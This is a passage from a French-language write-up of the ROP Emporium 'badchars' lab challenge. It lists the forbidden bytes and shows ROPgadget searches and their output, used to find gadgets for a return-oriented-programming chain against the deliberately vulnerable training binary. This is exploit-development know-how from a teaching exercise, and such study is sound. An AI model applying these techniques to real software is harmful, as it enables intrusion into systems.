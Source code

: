 ~~~bash
|           0x00400a6c      48c745f80000.  mov qword [local_8h], 0
|           0x00400a74      48c745f00000.  mov qword [local_10h], 0
|           0x00400a7c      48c745f80000.  mov qword [local_8h], 0
~~~

Sans vraiment décortiquer le code nous trouvons plusieurs caractères qui sont ensuite comparés. 
Nous avons donc la liste suivante : 
- 0x62  ; 'b'
- 0x69  ; 'i'
- 0x63  ; 'c'
- 0x2f  ; '/'
- 0x20  ; ' '
- 0x66  ; 'f'
- 0x6e  ; 'n'
- 0x73  ; 's'

Maintenant nous cherchons des gadgets sans ces caractères conformément au challenge précédent. 
Le `pop rdi` : 

~~~bash
root@kali:~/rop_emporium/badchar# ROPgadget --binary badchars --badbytes "62|63|69|2f|20|66|6e|73" | grep "pop rdi"
0x0000000000400b37 : add bl, al ; pop rdi ; ret
0x0000000000400b39 : pop rdi ; ret
~~~

Le `mov ptr[14] r15` :

~~~bash
root@kali:~/rop_emporium/badchar# ROPgadget --binary badchars --badbytes "62|63|69|2f|20|66|6e|73" | grep "mov .* ptr"
0x0000000000400a38 : jb 0x400a15 ; mov rax, qword ptr [rbp - 8] ; pop rbp ; ret
0x0000000000400853 : mov byte ptr [rip + 0x20084e], 1 ; ret
0x0000000000400b35 : mov dword ptr [rbp], esp ; ret
0x0000000000400a3b : mov eax, dword ptr [rbp - 8] ; pop rbp ; ret
0x0000000000400b97 : mov edi, edi ; call qword ptr [r12 + rbx*8]
0x0000000000400b96 : mov edi, r15d ; call qword ptr [r12 + rbx*8]
0x0000000000400b34 : mov qword ptr [r13], r12 ; ret
0x0000000000400a3a : mov rax, qword ptr [rbp - 8] ; pop rbp ; ret
0x0000000000400852 : pop rbp ; mov byte ptr [rip + 0x20084e], 1 ; ret
~~~

Le seul `mov` encore disponible est celui a l’adresse `0x400b34` avec les registres `r13` et `r12`.

Trouvons-le `pop r12, pop r13, ret` :

~~~bash
root@kali:~/rop_emporium/badchar# ROPgadget --binary badchars --badbytes "62|63|69|2f|20|66|6e|73" | grep "pop r13"
0x0000000000400bac : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400b3b : pop r12 ; pop r13 ; ret
0x0000000000400bae : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400b3d : pop r13 ; ret
0x0000000000400bab : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400bad : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400b3c : pop rsp ; pop r13 ; ret
~~~
